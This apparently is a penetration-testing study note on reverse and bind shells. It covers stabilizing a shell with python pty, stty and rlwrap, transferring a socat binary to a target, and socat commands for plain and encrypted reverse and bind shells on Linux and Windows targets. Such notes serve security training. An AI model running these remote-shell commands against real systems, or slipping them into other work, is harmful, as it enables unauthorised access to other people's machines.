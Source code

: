When exploiting targets there are two main types of shells:

1) Reverse Shell
2) Binding Shell

### Reverse Shell 
- Opened when a target is forced to execute code that connects back to your computer
- Uses a *listener* to receive connection from a targeted computer

### Bind Shells
- Executes code to start a listener attached to a shell directly on a target

### Shell Stabilization

Technique 1: Python

1. Use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. The shell will look a bit prettier, but still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2.  `export TERM=xterm` -- this will give access to term commands such as `clear`.
3. Finally (and most importantly) background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Technique 2: rlwrap

1. first install it with `sudo apt install rlwrap`
	- gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, some manual stabilization must still be utilized if you want to be able to use Ctrl + C inside the shell
2. To use rlwrap, we invoke a slightly different listener:
	- `rlwrap nc -lvnp <port>`

Technique 3: Socat

 - Only viable on Linux machines
 
 The third easy way to stabilize a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).


### SoCat

Commands:

	socat TCP-L:<port> -  creates a reverse shell listener

On Windows we would use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

This is the equivalent command for a Linux Target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

Bind Shells:
On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`  

On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`  

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.  

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`


#### Encrypted Shells

Steps to create an encrypte shell in Socat (reverse shell):
1) Generate a certificate for the encrypted shell
	Ex. openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

2) Merge the two created files into a single .pem file
	Ex. cat shell.key shell.crt > shell.pem

3) Set up the reverse shell listener
	Ex. socat OPENSSL-LISTEN:PORT,cert=shell.pem,verify=0 -

4) Connect back to another machine
	Ex. socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

* The above steps would also work for a bind shell *